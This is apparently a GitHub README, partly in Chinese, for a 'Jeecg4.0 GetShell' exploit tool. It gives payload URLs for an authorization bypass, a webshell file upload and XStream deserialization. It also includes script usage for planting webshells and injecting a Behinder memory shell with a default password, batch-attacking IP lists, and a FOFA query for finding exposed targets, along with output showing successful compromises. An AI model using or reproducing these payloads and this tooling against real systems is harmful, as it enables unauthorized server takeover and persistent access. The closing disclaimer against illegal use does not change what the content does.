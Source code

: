 #  Jeecg4.0 GetShell

## Bypass_authorized 

### payload

```
http://ip:port/api/../xxxxxx
```

### poc

正常请求

![image-20220825124856083](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/1.png)

绕过授权请求

![image-20220825124932019](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/2.png)

## File_upload

### payload

```
http://ip:port/iconController.do?saveOrUpdateIcon
```

### poc

![image-20220825125237074](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/3.png)

### webshell_url

```
http://ip:port/plug-in/accordion/images/x.xxx
```

## Xstream_deserialize

### payload

```
http://ip:port/cgformSqlController.do?doMigrateIn
```

### xstream_payload

```
http://x-stream.github.io/CVE-2021-39149.html
```

### poc

![image-20220825130714206](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/4.png)

## Jeecg_v4.0_getshell

```
  Title  :  Jeecg4.0 GetShell
  Author  :  R4gd0ll
  Usage  :  python3 jeecg_v4.0_getshell.py -h

  -h --help    打开帮助
  -u --url     对单个ip进行测试
  -f --file    对文件中的所有ip进行测试
  -m --msmurl  注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
```
## fofa

```
body="JEECG版权所有 v_4.0" || title="Jeecg 快速开发平台"
```

### help

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -h

    -------------------------------------------------------------------------
    Title   :   Jeecg4.0 GetShell
    Author  :   R4gd0ll
    Usage   :   python3 jeecg_v4.0_getshell.py -h

    -h --help     打开帮助
    -u --url      对单个ip进行测试
    -f --file     对文件中的所有ip进行测试
    -m --msmurl   注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
    -------------------------------------------------------------------------
```

### url

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -u http://127.0.0.1:8080/jeecg

[+] getshell success, webshell地址:http://127.0.0.1:8080/jeecg/plug-in/accordion/images/1.jsp
```

![image-20220825133223937](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/5.png)

### msmurl

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -m http://127.0.0.1:8080/jeecg/

Behinder msmshell success
```

![image-20220825133349259](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/6.png)

### file

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -f 1.txt
[-] getshell fail
[-] getshell fail
[-] 访问出现错误！
[-] 访问出现错误！
[-] getshell fail
[+] getshell success, webshell地址:http://xxxxx/plug-in/accordion/images/1.jsp
[+] getshell success, webshell地址:http://xxxxx//plug-in/accordion/images/1.jsp
```
## 只提供经验分享，请勿用于违法途径！！
